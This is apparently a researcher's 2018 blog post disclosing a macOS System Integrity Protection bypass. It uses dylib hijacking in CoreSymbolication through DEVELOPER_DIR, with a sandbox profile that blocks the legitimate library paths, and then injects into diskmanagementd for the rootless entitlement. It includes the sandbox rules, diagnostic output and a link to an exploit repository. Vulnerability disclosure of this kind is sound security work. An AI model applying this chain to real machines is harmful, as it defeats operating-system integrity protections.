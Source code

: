 ```yaml
---
layout:	post
title:	"Bypass macOS Rootless by Sandboxing"
date:	2018-06-18
image: /img/elevated.png
show_excerpt: true
---
```


This bug has been fixed in Mojave Beta, but still present in latest High Sierra (10.13.5). It's a logic bug that an entitled binary tries to load an insecure external library controllable by environment variable. To exploit it we need to abuse sandbox, which is interesting that sometimes a mitigation could be turned to an exploit.

CoreSymbolication(`/System/Library/PrivateFrameworks/CoreSymbolication.framework`) has some private api for symbolication. When demangling swift application symbols, it tries to load external library in following order:

* /System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib
* /Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
* /usr/lib/libswiftDemangle.dylib
* `${xcselect_get_developer_dir_path()}`/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib

<!-- more -->

![](/img/AcYsN5lN3MwURaTyzmZYlg.png)

The function `xcselect_get_developer_dir_path` will return environ variable `DEVELOPER_DIR` if it's set. Absolutely controllable.

![](/img/5y2YMlFx8NPfDGRv3PXszg.png)

Actually the first `libswiftDemangle.dylib` candidate does exist. Will it reach the vulnerable branch? I'll talk about it later.

Apple has built-in `com.apple.SamplingTools` in:

```
/usr/bin/{filtercalltree,heap32,stringdups32,leaks32,heap,atos,vmmap32,sample,malloc_history32,symbols,vmmap,leaks,stringdups,malloc_history}
```

And they are entitled:

```shell
➜ ~ jtool --ent `which symbols`
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "<http://www.apple.com/DTDs/PropertyList-1.0.dtd>">
<plist version="1.0">
<dict>
 <key>com.apple.private.kernel.get-kext-info</key>
 <true/>
 <key>com.apple.system-task-ports</key>
 <true/>
</dict>
</plist>
```

With this entitlement, SamplingTools can attach to SIP protected process with `task_for_pid`, even without root privilege.

```
$ vmmap Finder | head -n 8
Process: Finder [42164]
Path: /System/Library/CoreServices/Finder.app/Contents/MacOS/Finder
Load Address: 0x10515f000
Identifier: com.apple.finder
Version: 10.13.5 (10.13.5)
Build Info: Finder_FE-1054005004000000~3
Code Type: X86–64
Parent Process: ??? [1]
```

LLDB fails even it's root:

```
$ sudo lldb -n Finder
Password:
(lldb) process attach --name "Finder"
error: attach failed: cannot attach to process due to System Integrity Protection
```

So this seems to be like a meta entitlement. With it you can just inject to other entitled process and gain arbitrary entitlement.

Let's just start an application compiled with swift, then run `symbols [pid] -printDemangling` and it will call CoreSymbolication!demangle, which has potential ability to load insecure code.

But there are two problems. First, the last branch looks impossible to be reached because `/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib` exists.

Actually we can just block them with a sandbox. **Yeah, use the security facility to trigger something insecure.**

```lisp
(version 1)
(allow default)
(deny file-read*
  (literal "/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib")
  (literal "/Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib")
  (literal "/usr/lib/libswiftDemangle.dylib")
)
```

Then, spawn a child process with `symbols [pid] -printDemangling` to trigger dylib hijack.

Now we have a second problem. It crashes.

```
System Integrity Protection: enabled
Crashed Thread: 0 Dispatch queue: com.apple.main-threadException Type: EXC_BAD_ACCESS (Code Signature Invalid)
Exception Codes: 0x0000000000000032, 0x000000010d745000
Exception Note: EXC_CORPSE_NOTIFY
Termination Reason: Namespace CODESIGNING, Code 0x2
kernel messages:
External Modification Warnings:
Process used task_for_pid().
VM Regions Near 0x10d745000:
 MALLOC_LARGE 000000010d70a000-000000010d745000 [ 236K] rw-/rwx SM=PRV
--> mapped file 000000010d745000-000000010d746000 [ 4K] r-x/r-x SM=PRV Object_id=2929ab85
 mapped file 000000010d748000-000000010d762000 [ 104K] r--/r-- SM=ALI Object_id=2af85085Application Specific Information:
dyld: in dlopen()
/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/tmp.0b5SeUjh/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
12 libdyld.dylib 0x00007fff66c9fd86 dlopen + 86
13 com.apple.CoreSymbolication 0x00007fff52d15332 invocation function for block in call_external_demangle(char const*) + 348
14 libdispatch.dylib 0x00007fff66c64e08 _dispatch_client_callout + 8
15 libdispatch.dylib 0x00007fff66c64dbb dispatch_once_f + 41
16 com.apple.CoreSymbolication 0x00007fff52cb880f demangle + 298
17 com.apple.CoreSymbolication 0x00007fff52cb85e3 TRawSymbol<Pointer64>::name() + 75
18 com.apple.CoreSymbolication 0x00007fff52cbd88e CSSymbolGetName + 166
```

com.apple.SamplingTools in latest macOS are code signed with [Library Validation](https://developer.apple.com/library/archive/documentation/Security/Conceptual/CodeSigningGuide/Procedures/Procedures.html) flag, so loading unsigned dylib is prohibited.

```
➜ ~ codesign -dvvv `which symbols`
Executable=/usr/bin/symbols
Identifier=com.apple.SamplingTools
Format=Mach-O thin (x86_64)
CodeDirectory v=20100 size=1384 flags=**0x2000(library-validation) **hashes=36+5 location=embedded
```

I just happened to have an El Capitan virtual machine and I looked into it. The previous SamplingTools distribution has valid code signature, but no library validation flag. So just copy to High Sierra and it works.

Although we can now invoke `task_for_pid` on any restricted process, it still requires the same euid, which means we need a local root privilege escalation exploit as part of the chain.

Now inject into `diskmanagementd` and you'll have the `com.apple.rootless.install.heritable` entitlement, which means the privilege to modify `/System` and spawn a shell without rootless restriction.

The bug has been fixed in Mojave Beta, no more external library, finally.

![](/img/vAP5r0UBzDCQcnPl8WjDqA.png)

#### Update 2019–05–14

This bug be exploited for kernel privilege escalation. Please refer to the slides for my HITB Ams 2019 talk:

<https://conference.hitb.org/hitbsecconf2019ams/materials/D2T2%20-%20ModJack%20-%20Hijacking%20the%20MacOS%20Kernel%20-%20Zhi%20Zhou.pdf>

And here's the exploit to load an unsigned kernel extension on macOS 10.13:

[**ChiChou/sploits**](https://github.com/ChiChou/sploits/tree/master/ModJack)